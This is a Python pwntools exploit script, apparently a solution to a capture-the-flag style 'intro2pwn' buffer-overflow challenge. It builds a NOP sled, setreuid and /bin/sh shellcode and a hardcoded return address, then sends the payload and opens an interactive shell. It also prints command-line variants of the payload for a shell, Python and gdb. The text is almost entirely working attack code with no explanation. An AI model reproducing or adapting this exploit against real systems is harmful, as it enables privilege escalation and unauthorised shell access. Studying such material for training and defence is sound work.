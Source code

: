 ```python
target.sendline(b"1")
print(target.recvall())


# string to hex address (base 16)
rsp = target.recvuntil(b">")
buffer_addr = rsp[64:78]
new_buff_addr = int(buffer_addr,16) + 0x50


stackSize = 152

offset = b"\x90" * 90
trap = b"\xcc"
suid = asm(shellcraft.setreuid(1002))

binShell = asm(shellcraft.sh())

binShell =  b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
spacer = b"\x90" * (stackSize - len(suid) - len(offset) - len(binShell))
pointer = b"\xb8\xe0\xff\xff\xff\x7f"
new_pointer = p64(new_buff_addr)

returnAdd = 0x7fffffffe0e8
print("set Pointer before: " + hex(returnAdd - stackSize + len(offset)))

# packing
pointer = p64(0x7fffffffe09f)

# 48 bit to avoid null bits (addional substract 10 byte for the nop slide)
pointer = pack(0x7fffffffe09f-10,48)


# build the payload
payload = offset + suid + binShell + spacer + pointer


#print out the payload for python3
paystring = '\\x' + '\\x'.join('{:02x}'.format(x) for x in payload)

# payload print via pip to cat
print("(python -c 'print(b\"" + paystring + "\")'; cat) | ./intro2pwnFinal")
# python 3 payload as parameter
print("./buffer-overflow-2 `python3 -c 'import sys;sys.stdout.buffer.write(b\"" + paystring + "\")'`")
# and python 2 as parameter
print("./buffer-overflow-2 `python -c 'print(b\"" + paystring + "\")'`")
# gdb payload
print("r < <(python -c 'print(b\"" + paystring + "\")')")



target.send(payload)


# gdb.attach(target,gdbscript='''
# set follow-fork-mode child
# continue
# ''')


target.interactive()
```